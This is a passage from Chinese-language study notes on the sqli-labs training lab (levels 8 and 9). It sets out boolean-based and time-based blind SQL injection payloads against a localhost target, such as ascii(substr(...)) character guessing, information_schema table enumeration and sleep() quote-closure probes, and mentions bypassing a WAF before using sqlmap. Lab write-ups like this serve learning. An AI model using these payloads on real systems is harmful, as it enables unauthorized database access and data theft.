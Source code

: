 回显：You are in...........

```mysql
http://localhost/sqli-labs-master/less-8/?id=1' and 1=2 -- -   （注意前面要闭合）
```

回显：
不同的值返回不同的页面 1=1真值回显 1=2假值不回显 
**基于布尔类型的盲注**
一般来说都是用SQLMAP来自动注入 但是基本上都是先通过手工布尔盲注找到绕过WAF的方法然后再借助sqlmap爆破
**关键函数**：
ascii():可以使用这个函数把查询到的内容转换为数字，以真假页面来判断字母和ascii对应的数字是否正确

```mysql
?id=1' and ascii('e')=101 -- -  条件满足，页面返回为真
?id=1' and ascii('e')=102 -- -  条件不满足，页面返回为假
```

substr((),1,1):指定控制每次输出的字符 

```mysql
?id=1' and ascii(substr(database(),1,1))>100 -- -
利用?id=1' and ascii(substr(database(),1,1))>? -- - 来穷举出字符的ascii码
?id=1' and ascii(substr(database(),1,1))=115 -- -   判断database()的第一个字符的acsii码是115 
?id=1' and ascii(substr(database(),2,1))=101 -- -   第二个字符的acsii码是101
......
```


**模板：**

```mysql
?id=1' and acsii(substr('注入代码',1,1))>97 -- -
例：?id=1' and ascii(substr(select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)>100 -- -
```

​	此处没必要用 group_concat() 函数，而是使用 **limit 0,1**
​	从第0行开始显示1行， 从结果的第一行数据依次查询

------

## less-9 (时间盲注 )

基于GET型的时间盲注 闭合方式 '

###### **前提**：没有回显 没有报错 可以被数据库执行

**闭合方式判断**：

```mysql
?id=1 and sleep(2) -- -
?id=1' and sleep(2) -- -
?id=1" and sleep(2) -- -
?id=1') and sleep(2) -- -
?id=1") and sleep(2) -- -
sleep(2)可以执行就是闭合符正确
```
